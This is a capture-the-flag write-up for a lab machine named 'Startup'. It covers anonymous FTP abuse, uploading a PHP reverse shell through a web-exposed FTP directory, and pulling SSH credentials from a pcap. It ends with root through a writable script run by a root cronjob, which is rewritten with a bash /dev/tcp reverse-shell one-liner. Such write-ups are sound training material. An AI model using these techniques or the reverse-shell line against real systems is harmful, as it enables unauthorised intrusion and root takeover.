 # Startup

##### Written: 17/09/2021

##### IP Address: 10.10.96.254

<br>

### What is the secret spicy soup recipe?

First, let's run a basic **nmap** scan on our target machine using the follow command:

```
sudo nmap -sC -sV -vv 10.10.96.254
```

Results:

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are 3 ports currently open on the machine:

* 21 - FTP Server
* 22 - SSH Server
* 80 - HTTP Server

We can also see that the FTP server allows for **anonymous login**! This is a misconfiguration that can be commonly found on FTP servers, allowing us to access the files within the server without a password.

Let's login to the FTP server. We use the username: **anonymous** and do not need to supply a password.

<img style="float: left;" src="screenshots/screenshot2.png">

We find two files: **important.jpg** and **notice.txt**. There is also a **ftp** directory, although there seems to be nothing inside. Now let's download those files to our local machine using the command:

```
get < file_name >
```

<br>

Contents of **notice.txt**:

<img style="float: left;" src="screenshots/screenshot3.png">

Looks like some fluff about Among Us memes :sweat_smile:. There is also mention of **Maya**. We can note this down as it could be a potential username that we can use later on.

<br>

Next, we can open **important.jpg**, but it will give us the following error:

<img style="float: left;" src="screenshots/screenshot4.png">

Let's check the file format to find out what type of file this really is. We can do so by checking the **file signature**, which are also known as **magic numbers** or **magic bytes**. To do so, we use **hexeditor** like so:

```
hexeditor < file_name >
```

<img style="float: left;" src="screenshots/screenshot5.png">

Here, we can see the first few lines of hexadecimal characters that make up the file. The magic bytes will always be placed at the very beginning of the file. Looking at the following wikipedia page: 

https://en.wikipedia.org/wiki/List_of_file_signatures#:~:text=This%20is%20a%20list%20of,its%20contents%20will%20be%20unintelligible

<img style="float: left;" src="screenshots/screenshot6.png">

We can see that the file is actually a **PNG** file (*89 50 4E 47 0D 0A 1A 0A*). Now we just have to change the file extension of important.jpg to **important.png** and we should be able to view it.

Contents of **important.png**:

<img style="float: left;" src="screenshots/screenshot7.png">

Found the Among Us meme! While the content does not seem especially interesting, perhaps we can check for steganography by using **zsteg**:

```
zsteg < file_name >
```

Results:
<img style="float: left;" src="screenshots/screenshot8.png">





I'm not well-versed with steganography, but I believe that there is nothing that we can use from these results. Hitting a dead end here, let's go ahead and explore the other services that are currently running on our target.

<br>

When we visit the web server, we are greeted with the following page:

<img style="float: left;" src="screenshots/screenshot9.png">

There is a **'contact us'** link that opens the **mailto** functionality:

<img style="float: left;" src="screenshots/screenshot10.png">

From this Wikipedia page: https://en.wikipedia.org/wiki/Mailto, I learnt that **mailto** is a Uniform Resource Identifier (URI) scheme for email addresses. It is used to produce hyperlinks on websites that allow users to send an email to a specific address directly from an HTML document, without having to copy it and entering it into an email client. 

It would also seem that the **mailto** has not been properly configured as it points to **#**, instead of an email address. Looking at the source code of the page, we can confirm this as the developer has left a comment:

<img style="float: left;" src="screenshots/screenshot11.png">

At first, I thought that we would be exploiting a vulnerability with this **mailto** functionality. However, after doing some research online, I was unable to find a vulnerability that could be used for this room. (There were a variety of vulnerabilities that do exist though!)

<br>

Next, we can run a **Gobuster** scan to try and find any hidden directories on this web server:

```
gobuster dir -u http://10.10.96.254/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Results of scan:

<img style="float: left;" src="screenshots/screenshot12.png">

There is a **/files** directory on the web server! Visiting this directory, we are brought to the FTP directory from earlier.

<img style="float: left;" src="screenshots/screenshot13.png">

Great! This means that we can upload a **reverse shell** script onto the FTP server and then execute it from this web directory, granting us access into the machine. 

We will be using the **PHP** **reverse shell** script created by **pentestmonkey**. To upload the script onto the FTP server, we use the following command:

```
put <file_name>
```

<img style="float: left;" src="screenshots/screenshot14.png">

After doing so, we can see that the script has been successfully uploaded on the **ftp** directory within the FTP server. Now, we just have to run a **netcat listener** and open the script within the web browser.

**netcat** command:

```
nc -lvnp 1234
```

<br>

Gaining access :smiling_imp: :

<img style="float: left;" src="screenshots/screenshot15.png">

<br>

<img style="float: left;" src="screenshots/screenshot16.png">

In the **/** directory, we can find the **recipe.txt** file, which gives us flag to the first question:

<img style="float: left;" src="screenshots/screenshot17.png">

The secret soup recipe is **love**.

---

### What are the contents of user.txt?

Within the **/** directory, we can also see an interesting directory called **incidents**. The directory contains a **pcap** file called **suspicious.pcapng**:

<img style="float: left;" src="screenshots/screenshot18.png">

Let's go ahead and download this file onto our local machine and open it up in **Wireshark**!

<br>

<img style="float: left;" src="screenshots/screenshot19.png">

We will need to sieve through the captured packets to see if we can obtain any usable information such as passwords. Firstly, let's check out the **HTTP** traffic captured, as that is unencrypted and could reveal some credentials:

<img style="float: left;" src="screenshots/screenshot20.png">

There are only a few HTTP packets and none of them contain any credentials. With that said, it seems as if someone prior had already conducted the same attack as us, having uploaded their own reverse shell onto the FTP server.

<br>

Next, let's look at **TCP** traffic. We can simple **right-click** on any of the TCP packets and click on **Follow** > **TCP Stream**. 

<img style="float: left;" src="screenshots/screenshot21.png">

Nice! We've found a potential username and password -> **lennie:c4ntg3t3n0ughsp1c3**

With this credentials, we can try to log into the **SSH** server:

<img style="float: left;" src="screenshots/screenshot22.png">

And we're in! We can then obtain **user.txt**.

---

### What are the contents of root.txt?

Within Lennie's home directory, there are two interesting directories: **Documents** and **scripts**.

Looking at **Documents**, there are 3 text files: **concern.txt**, **list.txt** and **note.txt**. These files did not seem to contain anything that we can use to escalate our privileges.

Next, in the **scripts** directory, there is a **planner.sh** script and **startup_list.txt** file. What's interesting to note is that both of these files are owned by **root**.

<img style="float: left;" src="screenshots/screenshot23.png">

Since we can read **planner.sh** as a non-root user, we can find out what it does:

<img style="float: left;" src="screenshots/screenshot24.png">

It looks like it echoes the contents of **$LIST** into **startup_list.txt**, before running **/etc/print.sh**. Let's now take a look at **/etc/print.sh**.

<img style="float: left;" src="screenshots/screenshot25.png">

All it does is **echo "Done!"**. With that said, **print.sh** actually belongs to **Lennie**! This means that we are able to write over it and since it's a bash script, we can have it execute anything we want, such as opening a **reverse shell**. We'll be using the **bash** reverse shell from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
bash -i >& /dev/tcp/<IP_ADDRESS_HERE>/<PORT_HERE> 0>&1
```

Now, we just have to figure out how we can execute **planner.sh** as **root**, which will then subsequently execute **print.sh** and open  up the reverse shell with root privileges.

<br>

At this point, I had an inkling that **planner.sh** was most probably being run as a **cronjob** by root. To verify this, we can use a nifty program called **pspy** (https://github.com/DominicBreuker/pspy/blob/master/README.md), which allows us to snoop on processes without the need for root permissions. This tool will tell us what cronjobs root is running without needing root permissions. 

After uploading the **pspy32** executable onto the SSH server, we can then execute it:

<img style="float: left;" src="screenshots/screenshot26.png">

As we can see, the **planner.sh** was automatically run with the UID=0 (root). This confirms that it is indeed a cronjob belonging to root!

Now, all we have to do is set up our netcat listener, sit back and relax.

<br>

<img style="float: left;" src="screenshots/screenshot27.png">

**After a few seconds, our reverse shell is successfully opened and we are logged into the server as root. With that, we can obtain root.txt and complete the room.**

